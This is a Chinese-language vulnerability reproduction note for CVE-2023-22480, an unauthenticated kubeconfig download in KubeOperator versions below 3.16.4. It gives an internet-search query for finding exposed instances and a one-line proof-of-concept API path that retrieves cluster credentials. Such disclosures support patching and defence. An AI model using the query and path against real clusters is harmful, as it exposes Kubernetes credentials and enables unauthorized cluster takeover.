# 

# KubeOperator kubeconfig 未授权访问漏洞 CVE-2023-22480

## 漏洞描述

KubeOperator 是一个开源的轻量级 Kubernetes 发行版，专注于帮助企业规划、部署和运营生产级别的 Kubernetes 集群。CVE-2023-22480 中，由于下载kubeconfig的路径不需要身份认证，导致攻击者可直接下载kubeconfig获取相关敏感信息。

## 漏洞影响

KubeOperator < 3.16.4

## 网络测绘

```
app="KubeOperator"
```

## 漏洞复现

登陆页面

![image-20230504140910659](images/image-20230504140910659.png)

在补丁中修复了配置文件下载接口的未授权

![image-20230504140927095](images/image-20230504140927095.png)

当集群存在时可通过接口未授权下载配置文件

![image-20230504140945600](images/image-20230504140945600.png)

验证POC (k8s为集群名称，不固定)

```
/api/v1/clusters/kubeconfig/k8s
```

![image-20230504141007260](images/image-20230504141007260.png)



